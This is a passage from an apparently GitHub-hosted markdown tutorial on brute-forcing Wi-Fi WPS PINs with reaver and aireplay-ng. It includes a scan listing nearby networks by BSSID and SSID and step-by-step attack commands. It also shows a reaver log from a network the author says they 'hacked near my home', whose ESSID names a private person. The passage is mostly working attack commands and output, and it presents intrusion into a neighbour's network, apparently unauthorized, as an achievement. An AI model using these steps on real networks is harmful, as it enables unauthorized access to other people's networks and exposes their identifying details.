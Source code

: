     5E:3A:3D:A3:26:B7    3  -72  2.0  No             ZTE_2.4G_XdeD6e
    44:95:3B:94:8B:B0   13  -70  1.0  No   RalinkTe  RH-2.4G-948BB0
    BA:DD:71:A4:BB:6A    9  -74  2.0  No             Aasra pg 4th floor
    3C:64:CF:3B:44:3E    5  -68  2.0  No   AtherosC  McDeNviUber
    8C:A3:99:46:0D:AA   11  -84  2.0  No   Broadcom  JioFiber-gryff
    BA:DD:71:E6:A6:BC    8  -74  2.0  No             ZTE_2.4G_3DeKcF
    96:E3:EE:24:6C:F8    4  -78  2.0  No             ZTE_2.4G_wzHhQ9
    44:95:3B:BE:DE:B0    9  -78  1.0  No   RalinkTe  RH-2.4G-BEDEB0
    ```

- Hence, now we know we have a WPS enabled network, we can use the `reaver` tool to brute-force the WPS PIN and recover the WPA/WPA2 key.

>[!CAUTION]
> It will not work, and fail in this scenario cause if you LCK (Lock) is set to `Yes`, which means the WPS feature is locked due to too many failed attempts or by default.<br/><br/>
> The attack will also not work if the Router has AP Rate Limiting (ARL) enabled, which limits the number of authentication attempts per second. It may but will take a long time to brute-force the WPS PIN.

- Once, we have the info about the WPS enabled network, we can use the `reaver` tool to brute-force the WPS PIN and recover the WPA/WPA2 key along side `aireplay-ng` to associate with the target network.]

- So, first run the command:

    ```bash
    root@kali:~# reaver --bssid WIFI_MAC --channel <channel_number> --interface wlan0 -vvv --no-associate
    ```

    And, than run the command:

    ```bash
    root@kali:~# aireplay-ng --fakeauth 30 -a WIFI_MAC -h WIRELESS_ADAPTER_MAC wlan0
    ```

- And, this should start trying all possible combinations of the WPS PIN, and once it finds the correct one, it will display the WPA/WPA2 key.

- Here's a wifi that I hacked near my home, using the above method:

    <details>
        <summary>reaver logs</summary>

    ```bash
    root@kali:~# reaver --bssid B4:3D:08:2D:91:41 --channel 1 --interface wlan0 -vvv --no-associate

    Reaver v1.6.6 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

    [+] Switching wlan0 to channel 1
    [+] Waiting for beacon from B4:3D:08:2D:91:41
    [+] Received beacon from B4:3D:08:2D:91:41
    [+] Vendor: RealtekS
    WPS: A new PIN configured (timeout=0)
    WPS: UUID - hexdump(len=16): [NULL]
    WPS: PIN - hexdump_ascii(len=8):
        31 32 33 34 35 36 37 30                           12345670        
    WPS: Selected registrar information changed
    WPS: Internal Registrar selected (pbc=0)
    WPS: sel_reg_union
    WPS: set_ie
    WPS: cb_set_sel_reg
    WPS: Enter wps_cg_set_sel_reg
    WPS: Leave wps_cg_set_sel_reg early
    WPS: return from wps_selected_registrar_changed
    [+] Trying pin "12345670"
    [+] Associated with B4:3D:08:2D:91:41 (ESSID: Rahul Agarwal_2.4G)